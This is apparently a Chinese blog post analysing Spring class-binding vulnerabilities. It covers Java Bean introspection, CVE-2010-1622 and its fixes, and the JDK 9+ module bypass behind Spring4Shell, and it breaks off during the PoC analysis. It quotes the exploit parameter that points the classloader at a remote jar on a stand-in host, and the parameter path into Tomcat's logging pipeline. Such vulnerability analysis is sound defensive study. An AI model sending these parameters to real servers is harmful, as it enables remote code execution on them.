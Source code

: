 通过 JavaBean 的内省(Introspector)来获取Greeting类中的属性：
```java
import java.beans.*;

public class test {
    public static void main(String[] args) throws IntrospectionException {
        BeanInfo beanInfo = Introspector.getBeanInfo(Greeting.class);

        System.out.println("所有属性描述:");
        PropertyDescriptor[] pds = beanInfo.getPropertyDescriptors();
        for (PropertyDescriptor propertyDescriptor : pds) {
            System.out.println(propertyDescriptor.getName());
        }
        System.out.println("所有方法描述:");
        for (MethodDescriptor methodDescriptor : beanInfo.getMethodDescriptors()) {
            System.out.println(methodDescriptor.getName());
        }
    }
}
```

![](https://img-blog.csdnimg.cn/4327b59d669146de92feb4627f0a27b9.png)

所以在Greeting类中还有一个名为class的属性，并且还有一个getClass()的方法

同样我们可以对 Class 对象内省获取属性以及对应的方法：
```java
BeanInfo beanInfo = Introspector.getBeanInfo(Class.class);
```
![](https://img-blog.csdnimg.cn/9a59138841b54e05b6197b6c7c5ba35c.png)

主要利用的就是classLoader类加载器

CVE-2010-1622利用的方式是`class.classLoader.URLs[0]=jar:http://127.0.0.1:8000/exp.jar!/`
主要流程为：
```
classLoader.URLs[0]->WebappClassLoader.getURLs()->TldLocationsCache.scanJars()
```

修复：
Tomcat6.0.28版本后把getURLs方法返回的值改成了clone的，这使得我们获得的clone值无法修改classloader中的URLs[]

Spring则是在CachedIntrospectionResults中获取beanInfo后对其进行了判断，将classLoader添加进了黑名单
![](https://img-blog.csdnimg.cn/1343321a4fd1434db70bb079330ec8bd.png)

### poc分析
自从JDK 9+开始，JDK引入了模块（Module）的概念，就可以通过module来调用JDK模块下的方法，而module并不在黑名单中，所以能够绕过黑名单
第一次传入的参数是
```
class.module.classLoader.resources.context.parent.pipeline.first.pattern
```
经过一系列的调用逻辑后，来到`org.springframework.beans.AbstractNestablePropertyAccessor#getPropertyAccessorForPropertyPath`方法，该方法通过递归调用自身，实现对利用链的递归解析
![](https://img-blog.csdnimg.cn/7d0ccb58847348b19716ccc429d78a0e.png)
